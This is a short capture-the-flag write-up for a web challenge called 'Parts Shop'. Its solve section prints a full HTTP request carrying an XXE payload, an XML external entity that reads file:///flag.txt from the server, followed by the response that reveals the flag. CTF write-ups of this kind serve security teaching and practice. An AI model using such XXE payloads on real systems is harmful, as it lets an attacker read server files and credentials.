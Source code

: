 
# Parts Shop [Web]

### 150

We've found an online shop for robot parts. We suspect ARIA is trying to embody itself to take control of the physical world. You need to stop it ASAP! (Note: The flag is located in `/flag.txt`)

[https://uscybercombine-s4-parts-shop.chals.io/](https://uscybercombine-s4-parts-shop.chals.io/)

## Solve

- XXE , 

```
POST /blueprint HTTP/1.1
Host: uscybercombine-s4-parts-shop.chals.io
Cookie: session=eyJ1dWlkIjoiMTRkZDRjNGYtNmUxMy00MmVjLWE1MGEtMjMyYWVmOTFlN2Y3In0.ZlpVvg.XVLSYBost8Q4uuTU6WGmnKzoERo
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://uscybercombine-s4-parts-shop.chals.io/blueprint
Content-Type: text/plain;charset=UTF-8
Content-Length: 256
Origin: https://uscybercombine-s4-parts-shop.chals.io
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=1
Te: trailers
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt">]>
<part>
  <name>Malecon</name>
  <author>&xxe;</author>
  <image>robo.jpg</image>
  <description>es el mas chido</description>
</part>

```

```
## Robo HAck

Created by: SIVBGR{fu11y_upgr4d3d}

es el mas chido
```
